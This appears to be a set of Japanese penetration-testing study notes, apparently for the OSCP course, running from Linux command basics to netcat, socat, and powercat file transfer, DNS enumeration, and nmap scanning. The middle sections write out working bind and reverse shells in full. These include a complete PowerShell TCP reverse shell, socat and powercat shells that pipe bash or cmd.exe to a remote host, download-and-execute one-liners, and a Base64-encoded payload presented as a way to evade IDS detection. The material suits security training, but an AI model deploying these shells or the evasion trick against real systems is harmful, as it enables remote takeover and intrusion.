


| コマンド | 意味 |
|---|---|
| which | $PATH環境変数に定義されているディレクトリを指定されたファイル名で検索 ファイルが見つかった場合、ファイルのパスをフルパスで返す |
| locate | locateはハードディスク全体ではなくlocate.dbという名前の内臓データベースを検索する このデータベースはcronによって自動更新され、updatedbコマンドを使用すれば手動更新も可能 |
| fine | locateとは違い、様々な方法でファイルを検索可能 ファイルの日付、サイズ、所有者、タイムスタンプ、パーミッション |
kali@kali:~$ sudo find / -name sbd*
/usr/bin/sbd
/usr/share/doc/sbd
/usr/share/windows-resources/sbd
/usr/share/windows-resources/sbd/sbd.exe
/usr/share/windows-resources/sbd/sbdbg.exe
/var/cache/apt/archives/sbd_1.37-1kali3_amd64.deb
/var/lib/dpkg/info/sbd.md5sums
/var/lib/dpkg/info/sbd.list
これらのディレクトリのいずれかに実行可能ファイルを配置する場合、実行可能ファイル/スクリプトへのパスを設定する必要がない
kali@kali:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
Windowsからハッシュを収集できるツール。
/usr/share/wce/
ネットワーク状態確認コマンド。
どのプロセスがそのポートを開放しているか確認
netstat -tulpn
ss -tulpn
systemdをコントロールするコマンド。
serviceコマンドとの違いはないが、serviceコマンドはinitを呼び出すスクリプトなのに対して、systemctlコマンドはネイティブなバイナリコマンドとなっている。
#サービスの開始
systemctl start ssh
#サービスの停止
systemctl stop ssh
#サービスの再起動
systemctl restart ssh
#サービスの起動状態表示
system status ssh
#サービスが自動起動するかの確認コマンド
systemctl list-unit-files -t service
#ブート時にサービス自動起動の有効化
systemctl enable ssh
#ブート時のサービス自動起動の無効化
systemctl disable ssh
環境変数はexportコマンドで定義することができる。
kali@kali:~$ export a=10.11.1.220
kali@kali:~$ ping -c 2 $a
PING 10.11.1.220 (10.11.1.220) 56(84) bytes of data.
64 bytes from 10.11.1.220: icmp_seq=1 ttl=62 time=2.23 ms
64 bytes from 10.11.1.220: icmp_seq=2 ttl=62 time=1.56 ms
exportコマンドは現在のBashインスタンスから生成されるあらゆるサブプロセスから変数にアクセスできるようにする。
exportコマンド無しで環境変数を設定すると現在のシェルでしか利用できない。
envコマンドを用いることで設定された環境変数を確認することができる。
yukitsukai@DESKTOP-ES4DRSU:~$ env
SHELL=/bin/zsh
WSL_DISTRO_NAME=kali-linux
LESS_TERMCAP_se=
LESS_TERMCAP_so=
NAME=DESKTOP-ES4DRSU
PWD=/home/yukitsukai
LOGNAME=yukitsukai
HOME=/home/yukitsukai
LANG=en_US.UTF-8
| StreamName | 説明 |
|---|---|
| STDIN | プログラムに入力されるデータ |
| STDOUT | プログラムから出力されるデータ |
| STDERR | エラーメッセージ |
STDIN、STDOUT、STDERRのストリーム番号はそれぞれ0、1、2と定義されている。
このためストリーム番号を「>」演算子の前に置くことで、リダイレクトすることもできる。
kali@kali:~$ ls ./test 2>error.txt
kali@kali:~$ cat error.txt
ls: cannot access '/test': No such file or directory
| オプション | 意味 |
|---|---|
| -O | 正規表現で定義された文字列のみ |
| -v | 検索文字列にマッチしない行のみを表示(除外する) |
テキストファイルの行数や単語数、文字数を数えるコマンド。
(指定したテキストファイルの行数、単語数、バイト数)
| オプション | 意味 |
|---|---|
| -c | バイト数の表示 |
| -m | 文字数を表示 |
| -l | 改行の数を表示 |
| -w | 単語数を表示 |
文字列を全置換したり、行単位で抽出したり、削除したり、いろいろなテキスト処理のできるコマンド。
kali@kali:~$ echo "I need to try hard" | sed 's/hard/harder/' I need to try harder
ある行からテキストの一部を抽出し、それを標準出力に出力するために使用します。よく使われるオプションとして切り取るフィールド番号を表す-fや、フィールドの区切りを表す-dなどがある。 -dでカット、-fでカットしたものの選択(番号で)
kali@kali:~$ cut -d ":" -f 1 /etc/passwd root
daemon
bin
.
.
空白や記号で区切られたテキストを処理するコマンド。
cutはフィールドの区切り文字として1文字しか受け付けないのに対し、awkははるかに柔軟に対応できる。
-Fオプションは区切り文字の指定。
kali@kali:~$ echo "hello::there::friend" | awk -F "::" '{print $1, $3}'
hello friend
テキストファイルを行単位で並べ替えるコマンド。
オプションなしだとキャラクターコード順に並べ替える。
| オプション | 意味 |
|---|---|
| -u | 同一行は最初の一つ目だけを表示 |
| -c | 並べ替えられているか確認 |
| -r | 逆順で並べ替える |
| -n | 文字列を数値と見なして並べ替える |
重複している行を削除するコマンド。
uniqコマンドは、元のテキストが"並べ替え済み"であることが前提になるので、必要に応じて先に「sort」コマンドで並べ替えを実行しておく。
| オプション | 意味 |
|---|---|
| -c | 各行の前に出現回数を出力する |
nslookupコマンド同様、ドメイン名からIPアドレス、あるいはIPアドレスからドメイン名を調べるコマンド。
2つのテキストファイルを比較し，それぞれのファイルに固有の行と共通の行を表示する。
-12をつけると両ファイルに見られるものを抽出。
kali@kali:~$ comm scan-a.txt scan-b.txt
kali@kali:~$ comm -12 scan-a.txt scan-b.txt
commコマンドと同様にファイル間の差分を検出するためのコマンド。
-c(コンテキスト形式)とユニファイド形式(-u)で表示可能。
Linuxカーネルは、プロセスを使ってマルチタスクを管理している。カーネルは、整理整頓のために各プロセスの情報を保持し、各プロセスにはプロセスID（PID）と呼ばれる番号が割り当てられている。
シェルで動かしたプロセスことをジョブと呼ぶ。
下記のようなパイプを使って二つのプロセスを実行している場合も一つのジョブとする。
cat test.txt | grep hello
&をつけることでバックグラウンドでジョブを実行。
kali@kali:~$ ping -c 400 localhost > ping_results.txt &
Ctrl+zで停止、bgでジョブの再開。
kali@kali:~$ ping -c 400 localhost > ping_results.txt
^Z
[1]+ Stopped ping -c 400 localhost > ping_results.txt
kali@kali:~$ bg
[1]+ ping -c 400 localhost > ping_results.txt kali@kali:~$
jobsコマンドにより現在のジョブ一覧を表示。
-lを使用することでリスト表示にプロセスIDを付加。
fgコマンドにより再開したいジョブの選択。
kali@kali:~$ ping -c 400 localhost > ping_results.txt
^Z
[1]+ Stopped ping -c 400 localhost > ping_results.txt
kali@kali:~$ find / -name sbd.exe
^Z
[2]+ Stopped
kali@kali:~$ jobs [1]- Stopped [2]+ Stopped
find / -name sbd.exe
ping -c 400 localhost > ping_results.txt find / -name sbd.exe
kali@kali:~$ fg %1
ping -c 400 localhost > ping_results.txt ^C
kali@kali:~$ jobs
[2]+ Stopped find / -name sbd.exe
kali@kali:~$ fg
find / -name sbd.exe /usr/share/windows-resources/sbd/sbd.exe
jobsコマンドは現在のターミナルセッションのジョブを表示していたが、psコマンドではシステム全体のプロセスをリストアップする。
| オプション | 意味 |
|---|---|
| -e | 全てのプロセスを表示 |
| -f | フルフォーマットのリストを表示 |
| -C | アプリケーションの名前が分かっている場合、指定して表示 |
ps aux
・a: 端末操作のプロセス(自分 + 他ユーザー)を表示する
・u: 各プロセスの実行ユーザーやCPU, Mem(メモリ)等の情報も表示する
・x: 端末操作のないプロセス(daemon等)も表示する
-rw-rw-r-- test test
このとき下記のようになる。
ファイルの種別
「-」 = ファイル
「d」 = ディレクトリ
「l」 = リンク
アクセス権を数値で表すと以下のようになる。

r = 4
w = 2
x =1
tailはファイルの最終行から数行を表示するコマンド。 標準では１０行を表示する。
fオプション（follow）は、対象となるファイルの成長に合わせて出力を継続的に更新する。もう一つの便利なスイッチは-nXで、これはデフォルトの10行ではなく、最後の「X」行数を出力する。
指定したコマンドを2秒間隔で繰り返し実行するコマンド。 -n 1のように明示すると繰り返し時間間隔を変更でき、この場合コマンドを1びょうかんかくで 繰り返し実行する。
kali@kali:~$ watch date
Every 2.0s: date DESKTOP-ES4DRSU: Fri Apr 23 14:47:27 2021
Fri 23 Apr 2021 02:47:27 PM JST
-Oを指定することで保存する際のファイル名を指定することが可能。
kali@kali:~$ wget -O report_wget.pdf https://www.offensive-security.com/reports/penetr ation-testing-sample-report-2013.pdf
curlは多数のプロトコルを使用してサーバーとの間でデータを転送するためのツール。
kali@kali:~$ curl -o report.pdf https://www.offensive-security.com/reports/penetration -testing-sample-report-2013.pdf
FTPやHTTPサーバから複数の接続を解してファイルを天sのうするコマンド。
複数の接続数を指定する-nオプション。
より簡潔な進行状況表示のために-aオプション。
ダウンロードしたファイルに別のファイル名を指定するための-oオプション。
kali@kali:~$ axel -a -n 20 -o report_axel.pdf https://www.offensive-security.com/repor ts/penetration-testing-sample-report-2013.pdf
| オプション | 意味 |
|---|---|
| -n | DNSの名前解決をスキップする |
| -v | 冗長性の追加 |
| -l | リスナーの作成 |
| -p | リッスンポートの指定 |
受信側
C:\Users\offsec> nc -nlvp 4444 > incoming.exe
listening on [any] 4444 ...
送信側
kali@kali:~$ locate wget.exe
/usr/share/windows-resources/binaries/wget.exe
kali@kali:~$ nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
kali@kali:~$ nc <remote server's ip address> 80
kali@kali:~$ socat - TCP4:<remote server's ip address>:8
送信側
kali@kali:~$ sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
受信側
C:\Users\offsec> socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
C:\Users\offsec> type received_secret_passwords.txt
"try harder!!!"
待ち受け側
C:\Users\offsec> socat -d -d TCP4-LISTEN:443 STDOUT
... socat[4388] N listening on AF=2 0.0.0.0:443
接続側
kali@kali:~$ socat TCP4:10.11.0.22:443 EXEC:/bin/bash
・req: 新しい証明書署名要求を開始 ・-newkey: 新しい秘密鍵を生成 ・rsa:2048：2,048ビットの鍵長でRSA暗号を使用 ・-nodes：パスフレーズ保護なしで秘密鍵を保存 ・-keyout: 鍵をファイルに保存 ・-x509：証明書要求の代わりに自己署名証明書を出力 ・-days：有効期間を日単位で設定 ・-out: 証明書をファイルに保存
opensslを用いて鍵と証明書の生成。
生成したものを.pemに変換してsocatで読み込めるようにする。
kali@kali:~$ openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 36
2 -out bind_shell.crt
nGenerating a 2048 bit RSA private key
.....................+++
................................+++
writing new private key to 'bind_shell.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:US
State or Province Name (full name) [Some-State]:Georgia
Locality Name (eg, city) []:Atlanta
Organization Name (eg, company) [Internet Widgits Pty Ltd]:Offsec
Organizational Unit Name (eg, section) []:Try Harder Department
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
kali@kali:~$ cat bind_shell.key bind_shell.crt > bind_shell.pem
受信側
kali@kali:~$ sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin
/bash
送信側
C:\Users\offsec> socat - OPENSSL:10.11.0.4:443,verify=0
id
uid=1000(kali) gid=1000(kali) groups=1000(kali)
whoami
kali
C:\Users\test> powershell -c (New-Object Net.WebClient).DownloadFile('http://10.11.0.4/rs.exe', 'rs.exe')
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
}
$client.Close();
C:\Users\offsec> powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10. 11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.T ext.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII ).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$c lient.Close()"
C:\Users\offsec> powershell -c "$listener = New-Object System.Net.Sockets.TcpListener( '0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $clie nt.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $byt es.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString ($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$str eam.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Sto p()"
kali@kali:~$ nc -nv 10.11.0.22 443
(UNKNOWN) [10.11.0.22] 443 (https) open
ipconfig
Windows IP Configuration
Ethernet adapter Local Area Connection:
Connection-specific DNS Suffix . :
IPv4 Address. . . . . . . . . . . : 10.11.0.22
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : 10.11.0.1
C:\Users\offsec>
PowercatはPowerShell版のNetcat。
Dot-sourcingを使用して、powercat.ps1スクリプトをロードすることによりPowerShell内で直接powercat関数を使用可能になる。
PS C:\Users\Offsec> . .\powercat.ps1
攻撃対象となるマシンがインターネットに接続されている場合、githubからダウンロードさせることも可能。
PS C:\Users\Offsec> iex (New-Object System.Net.Webclient).DownloadString('https://raw. githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
PS C:\Users\offsec> powercat -h
powercat - Netcat, The Powershell Version
Github Repository: https://github.com/besimorhino/powercat
受信側
kali@kali:~$ sudo nc -lnvp 443 > receiving_powercat.ps1 listening on [any] 443 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 63661
送信側
PS C:\Users\Offsec> powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
受信側
kali@kali:~$ sudo nc -lvp 443 listening on [any] 443 ...
送信側
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe
受信側
PS C:\Users\offsec> powercat -l -p 443 -e cmd.exe
送信側
kali@kali:~$ nc 10.11.0.22 443
Microsoft Windows [Version 10.0.17134.590]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\offsec>
Powercatでは-gオプションをつけることで、スタンドアローン型ペイロードの生成が可能である。
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1 PS C:\Users\offsec> ./reverseshell.ps1
しかし、スタンドアロン型ペイロードはIDSによって容易に検出される可能性がある。
そこで、Base64でエンコードされたコマンドを実行できるPowerShell機能を利用することで、回避する。
-geオプションを利用することで、
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
このファイル内の文字列をコピーして、PowerShellの-Eオプション渡すことで実行できる。
PS C:\Users\offsec> powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFM AZQB0AHUAcAAKAHsACgAKACAAIAAgACAAcABhAHIAYQBtACgAJABGAHUAbgBjAFMAZQB0AHUAcABWAGEAcgBzA CkACgAgACAAIAAgACQAYwAsACQAbAAsACQAcAAsACQAdAAgAD0AIAAkAEYAdQBuAGMAUwBlAHQAdQBwAFYAYQB yAHMACgAgACAAIAAgAGkAZgAoACQAZwBsAG8AYgBhAGwAOgBWAGUAcgBiAG8AcwBlACkAewAkAFYAZQByAGIAb wBzAGUAIAA9ACAAJABUAHIAdQBlAH0ACgAgACAAIAAgACQARgB1AG4AYwBWAGEAcgBzACAAPQAgAEAAewB9AAo AIAAgACAAIABpAGYAKAAhACQAbAApAAoAIAAgACAAIAB7AAoAIAAgACAAIAAgACAAJABGAHUAbgBjAFYAYQByA HMAWwAiAGwAIgBdACAAPQAgACQARgBhAGwAcwBlAAoAIAAgACAAIAAgACAAJABTAG8AYwBrAGUAdAAgAD0AIAB OAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAGMAc ABDAGwAaQBlAG4AdAAKACAAIAAgACA
ネットワークプロトコルアナライザー。
ipアドレスやプロトコルでのフィルターを活用して調査を行う。
また、Following TCP Streamsを活用することで、特定のセッションを再構成して表示することができる。FTPのようなクリアテキストのプロトコルの場合、送受信したコマンドや出力を見ることができる。
kali@kali:~~~$~~ sudo tcpdump -r password_cracking_filtered.pcap
| オプション | 意味 |
|---|---|
| -r | ファイルを開く |
| -n | DNS名の検索をスキップ |
| src host | 送信元ホストの指定 |
| dst host | 宛先ホストの指定 |
| -X | このオプションを使うことでパケットデータをHEXとASCIIのフォーマットで出力 |
#ユーザーの入力を変数に入れる
read username
#-pはプロンプトを指定
read -p 'Username: ' username
#-sはユーザーの入力を表示しない(パスワードの入力などに最適)
read -sp 'Password: ' password
#!/bin/bash
# if statement example
read -p "What is your age: " age
if [ $age -lt 16 ]
then
echo "You might need parental permission to take this course!"
fi
[ ]はtestコマンドを呼び出して判定してるだけなので、下記のような表記でも動作する。
#!/bin/bash
# if statement example 2
read -p "What is your age: " age
if test $age -lt 16
then
echo "You might need parental permission to take this course!"
elif test $age -gt 60
then
echo "hats off to you, respect!"
else
echo "welcom to course!"
fi
#/bin/bash
# and example
#if [ $USER == 'kali' ] && [ $HOSTNAME == 'kali' ]
#if test $USER == 'kal' || test $HOSTNAME == 'aaa'
then
echo "Multiple statements are true!"
else
echo "Not much to see here..."
fi
#/bin/bash
# and example
if [ $USER == 'kali' ] && [ $HOSTNAME == 'kali' ]
then
echo "Multiple statements are true!"
else
echo "Not much to see here..."
fi
seqコマンドは連続の番号や範囲を指定した文字を主力出来る。
#1から10までの数を出力
seq 1 10
#5から10までの数を出力
seq 5 10
#5から10までの数を2つずつ増やしながら出力
seq 5 2 10
for ip in $(seq 1 10); do echo 10.11.1.$ip; done
for ip in $(seq 1 10)
do
echo 10.11.1.$ip
done
#!/bin/bash
# while loop example
counter=1
while [ $counter -lt 10 ]
do
echo "10.11.1.$counter"
((counter++))
done
bashにおける()は基本使われることはない。
関数内に$1などが定義されているときに、引数を指定することができる。
#!/bin/bash
# passing arguments to functions
pass_arg() {
echo "Today's random number is: $1"
}
pass_arg $RANDOM
afdの文字を含んだwindowsのエクスプロイトを全て検証したいとき、以下のようにbashを使用することでまとめてダウンロードすることができる。
┌──(yukitsukai㉿DESKTOP-ES4DRSU)-[~/test]
└─$ searchsploit afd windows -w -t
--------------------------------------------------------------------------- --------------------------------------------
Exploit Title | URL
--------------------------------------------------------------------------- --------------------------------------------
Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046) | https://www.exploit-db.com/exploits/40564
Microsoft Windows - 'afd.sys' Local Kernel (PoC) (MS11-046) | https://www.exploit-db.com/exploits/18755
Microsoft Windows - 'AfdJoinLeaf' Local Privilege Escalation (MS11-080) (M | https://www.exploit-db.com/exploits/21844
Microsoft Windows 7 (x64) - 'afd.sys' Dangling Pointer Privilege Escalatio | https://www.exploit-db.com/exploits/39525
Microsoft Windows 7 (x86) - 'afd.sys' Dangling Pointer Privilege Escalatio | https://www.exploit-db.com/exploits/39446
Microsoft Windows 7 Kernel - Pool-Based Out-of-Bounds Reads Due to bind() | https://www.exploit-db.com/exploits/42009
Microsoft Windows XP - 'afd.sys' Local Kernel Denial of Service | https://www.exploit-db.com/exploits/17133
Microsoft Windows XP/2003 - 'afd.sys' Local Privilege Escalation (K-plugin | https://www.exploit-db.com/exploits/6757
Microsoft Windows XP/2003 - 'afd.sys' Local Privilege Escalation (MS11-080 | https://www.exploit-db.com/exploits/18176
--------------------------------------------------------------------------- --------------------------------------------
Shellcodes: No Results
┌──(yukitsukai㉿DESKTOP-ES4DRSU)-[~/test]
└─$ searchsploit afd windows -w -t | grep http | cut -f 2 -d "|" | cut -d "/" -f 5 > list.txt
┌──(yukitsukai㉿DESKTOP-ES4DRSU)-[~/test]
└─$ cat list.txt
40564
18755
21844
39525
39446
42009
17133
6757
18176
┌──(yukitsukai㉿DESKTOP-ES4DRSU)-[~/test]
└─$ for a in $(cat list.txt); do searchsploit -m $a; done
ダウンロード完了！
Webサイトを持っている場合、それを訪問して、情報収集を行う。
例）メールアドレスの形式やTwitterのアカウント、その他社員情報
whois MEGACORP.COM
whois情報を確認することで、誰がドメイン名を登録しているのかなどが分かる。
またwhoisコマンドでIPアドレスを使って逆引きすることもできる。逆引きの結果、そのIPアドレスを誰がホストしているのかという情報が得られる。
以下のような検索を行うことで、どのようなプログラミング言語を用いているのかや、機密情報の公開範囲の設定ミス等を見つけることが可能である。
site:MEGACORP.COM filetype:php
| オプション | 意味 |
|---|---|
| site | ドメイン名の指定 |
| filetype(ext) | ファイルの拡張子で検索 |
| intitle | タイトルに含む文字の指定(intitle:"index of" "parent directory") |
recon-ngなどのツールの活用 github,gitlab,sourceforgeなどの調査 Shodan Security Headers SSL Server Test(Heartbleedなどの脆弱性の特定に利用) Pastebin theharvesterによる電子メールの収集
hostコマンドはデフォルトではAレコードを検索するが、-tオプションをつけることで、その他のレコードを検索することも可能。
kali@kali:~$ host -t txt megacorpone.com
┌──(kali㉿kali)-[~]
└─$ cat list.txt
www
ftp
mail
owa
proxy
router
┌──(kali㉿kali)-[~]
└─$ for domain in $(cat list.txt); do host $domain.megacorpone.com; done
www.megacorpone.com has address 149.56.244.87
Host ftp.megacorpone.com not found: 3(NXDOMAIN)
mail.megacorpone.com has address 51.222.169.212
Host owa.megacorpone.com not found: 3(NXDOMAIN)
Host proxy.megacorpone.com not found: 3(NXDOMAIN)
router.megacorpone.com has address 51.222.169.214
┌──(kali㉿kali)-[~]
└─$ for domain in $(cat list.txt); do host $domain.megacorpone.com; done | grep -v "not found"
www.megacorpone.com has address 149.56.244.87
mail.megacorpone.com has address 51.222.169.212
router.megacorpone.com has address 51.222.169.214
権威DNSサーバの設定不備によってゾーン情報を取得できることがある。
これによりサーバーの名前、アドレス、機能などを調べることができる。
host -l <domain name> <dns server address>
kali@kali:~$ host -l megacorpone.com ns2.megacorpone.com
Using domain server:
Name: ns2.megacorpone.com
Address: 38.100.193.80#53
Aliases:
megacorpone.com name server ns1.megacorpone.com.
megacorpone.com name server ns2.megacorpone.com.
megacorpone.com name server ns3.megacorpone.com.
admin.megacorpone.com has address 38.100.193.83
beta.megacorpone.com has address 38.100.193.88
fs1.megacorpone.com has address 38.100.193.82
intranet.megacorpone.com has address 38.100.193.87
mail.megacorpone.com has address 38.100.193.84
mail2.megacorpone.com has address 38.100.193.73
ns1.megacorpone.com has address 38.100.193.70
kali@kali:~$ host -t ns megacorpone.com | cut -d " " -f 4
ns1.megacorpone.com.
ns2.megacorpone.com.
ns3.megacorpone.com.
関連するネームサーバーを特定し、それからゾーン転送を試みるプロセスを自動化するBashスクリプト。
#!/bin/bash
# Simple Zone Transfer Bash Script
# $1 is the first argument given after the bash script
# Check if argument was given, if not, print usage
if [ -z "$1" ]; then
echo "[*] Simple Zone transfer script"
echo "[*] Usage : $0 <domain name> "
exit 0
fi
# if argument was given, identify the DNS servers for the domain
for server in $(host -t ns $1 | cut -d " " -f4); do
# For each of these servers, attempt a zone transfer
host -l $1 $server |grep "has address"
done
kali@kali:~$ chmod +x dns-axfr.sh
kali@kali:~$ ./dns-axfr.sh megacorpone.com
admin.megacorpone.com has address 38.100.193.83
beta.megacorpone.com has address 38.100.193.88
fs1.megacorpone.com has address 38.100.193.82
intranet.megacorpone.com has address 38.100.193.87
mail.megacorpone.com has address 38.100.193.84
mail2.megacorpone.com has address 38.100.193.73
ns1.megacorpone.com has address 38.100.193.70
ns2.megacorpone.com has address 38.100.193.80
ns3.megacorpone.com has address 38.100.193.90
DNS列挙スクリプト。
1.kali@kali:~$ dnsrecon -d megacorpone.com -t axfr
2.kali@kali:~$ dnsrecon -d megacorpone.com -D ~/list.txt -t brt
DNSReconとは異なった出力をするDNS列挙ツール。
kali@kali:~$ dnsenum zonetransfer.me
ポートスキャンとは、リモートマシン上のTCPまたはUDPポートを検査するプロセス。
TCPスキャンでは3ウェイハンドシェイクによってポートが開いているかを確認する。
UDPスキャンでは、空のパケットを送信し、送信先のUDPポートが開いている場合、パケットがアプリケーション層に渡され、受信するレスポンスはアプリケーションによって異なる。UDPポートが閉じられている場合は「ICMP port unreachable」メッセージを使用して空いてるかを調べる。
しかしこれにはいくつかの問題があり、UDPスキャンを使用する場合、ファイアウォールやルーターによってICMPパケットをドロップすることがあるため、誤判定を生んでしまう。
ユーザーがraw sockets権限を持っている場合に使用されるNmapのデフォルトスキャン。よって、sudo/root権限の場合のデフォルトスキャンを意味する。
オプションは-sS。
SYNスキャンはTCPハンドシェイクを完了せずに、ターゲットマシンの様々なポートにSYNパケットを送信するTCPポートスキャン手法。3ウェイハンドシェイクを完了するための最後のACKを送信しない。
kali@kali:~$ sudo nmap -sS 10.11.1.220
ユーザーがraw socket権限を持っていない場合、nmapはデフォルトでこのスキャンを使用する。バークレーのソケットAPIを利用して3ウェイハンドシェイクを実行する。3ウェイハンドシェイクを完了させるため、SYSスキャンよりも完了までの時間は長くなる。
オプションは-sT。
kali@kali:~$ nmap -sT 10.11.1.220
UDPスキャンを実行する場合、Nmapは2つの異なる方法を組み合わせて、ポートが開いているか閉じているかを判断する。一つは先ほどまでに登場していた空のパケットを送信して確かめる「ICMP port unreachable」。もう一つはSNMPなどに対してはプロトコル固有のSNMPパケットを送信して応答を得る。
オプションは-sU。
kali@kali:~$ sudo nmap -sU 10.11.1.115
UDPスキャンはTCP SYNスキャンと組み合わせて使用することも可能で、ターゲットを完全に把握することができる。
kali@kali:~$ sudo nmap -sS -sU 10.11.1.115
ネットワークスイープを行い、ホストのスキャンを行う。
kali@kali:~$ nmap -sn 10.11.1.1-254
オプション-oGを使用することでgrepができるファイルを出力することができる。
kali@kali:~$ nmap -v -sn 10.11.1.1-254 -oG ping-sweep.txt
kali@kali:~$ grep Up ping-sweep.txt | cut -d " " -f 2
10.11.1.5
10.11.1.7
10.11.1.8
...
複数のIPをスキャンして、共通のポートを列挙するためには--top-portsオプションを使用することで上位20個のTCPポートを列挙することができる。また、-AでOSバージョン検出。
kali@kali:~$ nmap -sT -A --top-ports=20 10.11.1.1-254 -oG top-port-sweep.txt
オペレーティングシステムはTCP/IPスタックの実装がわずかに異なる。(デフォルトのTTL値やTCPウィンドウサイズが異なるなど)
ここからnmapはOSの識別を行う。
kali@kali:~$ sudo nmap -O 10.11.1.220
Device type: general purpose
Running: Microsoft Windows 2008|7
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7
OS details: Microsoft Windows 7 or Windows Server 2008 R2
Network Distance: 1 hop
オプション-sVを使用することで特定のポートで動作しているサービスを識別することができる。
kali@kali:~$ nmap -sV -sT -A 10.11.1.220
ユーザが作成したスクリプトを起動し、さまざまなスキャン作業を自動化することができる。
例)DNSの列挙、ブルートフォース攻撃、脆弱性の特定など
NSEスクリプトは/usr/share/nmap/scriptsディレクトリに配置されている
kali@kali:~$ nmap 10.11.1.220 --script=smb-os-discovery
...
OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Sta
| OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
| Computer name: master
| NetBIOS computer name: MASTER\x00
| Domain name: thinc.local
| Forest name: thinc.local
| FQDN: master.thinc.local
|_ System time: 2013-12-27T23:37:58-08:00
Nmap done: 1 IP address (1 host up) scanned in 5.85 seconds
kali@kali:~$ nmap --script=dns-zone-transfer -p 53 ns2.megacorpone.com
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-04 11:54 EST
Nmap scan report for ns2.megacorpone.com (38.100.193.80)
Host is up (0.010s latency).
Other addresses for ns2.megacorpone.com (not scanned):
PORT STATE SERVICE
53/tcp open domain
| dns-zone-transfer:
| megacorpone.com. SOA ns1.megacorpone.com. admin.megacorpone.com.
| megacorpone.com. MX 10 fb.mail.gandi.net.
| megacorpone.com. MX 20 spool.mail.gandi.net.
| megacorpone.com. MX 50 mail.megacorpone.com.
| megacorpone.com. MX 60 mail2.megacorpone.com.
| megacorpone.com. NS ns1.megacorpone.com.
...
Massscanはインターネット全体を約6分でスキャンし、1秒間に1000万パケットという驚異的な数のパケットを送信する最速のポートスキャナー。
raw socketsの権限を必要とするためsudoを用いる。
下記のコマンドではTCPポート80が空いているホストをclass Aサブネットで列挙している。
kali@kali:~$ sudo masscan -p80 10.0.0.0/8
NetBIOSはローカルネットワーク上のコンピュータが相互に通信できるようにするセッション層のプロトコルである。
